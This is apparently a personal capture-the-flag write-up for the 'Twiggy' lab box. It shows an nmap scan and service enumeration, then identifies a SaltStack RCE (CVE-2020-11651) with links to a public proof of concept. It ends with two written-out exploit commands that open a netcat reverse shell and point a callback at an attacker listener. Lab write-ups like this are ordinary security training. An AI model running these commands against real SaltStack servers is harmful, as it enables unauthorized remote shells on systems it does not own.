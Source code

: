 ```yaml
---
alias: twiggy
tags: [pg-playground, linux, enumeration, exploitation]
os: Linux
difficulty: Medium
date: 2025-04-09
status: owned
---
```

### 1. Box Summary

| Field          | Value               |
| -------------- | ------------------- |
| Name           | Twiggy              |
| IP             | `192.168.145.62`    |
| OS             | Linux               |
| Difficulty     | Medium              |
| Date Completed | 9 April 2025        |
| Exploited Via  | RCE → LFI → PrivEsc |
| Flags Captured | ✅ User, ✅ Root      |

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.145.62
```

Here's the report:

```
Nmap scan report for 192.168.145.62
Host is up (0.043s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.93 seconds
```

Of course we open the port 80 first
![[Twiggy-1744177123093.jpeg]]

Oh look there's an admin interface button

![[Twiggy-1744178077284.jpeg]]

After trying out the admin... nah it aint that easy. So we take a look at port 8000, time to do some research on ZeroMQ ZMTP 2.0 as well 

![[Twiggy-1744178200043.jpeg]]

Apparently we have something good on [exploitDB](https://www.exploit-db.com/exploits/48421) , let's just run Saltstack 3000.1 - Remote Code Execution like some script kiddie, and my guy actually uploaded a [poc](https://github.com/jasperla/CVE-2020-11651-poc) for it... good stuff


```
python3 exploit.py --master 192.168.145.62 --exec "nc 127.0.0.1 4444 -e /bin/sh"
```

python3 exploit.py --master 192.168.145.62 --port 4506 -lh 192.168.45.197 -lp 1337 --exec-choose master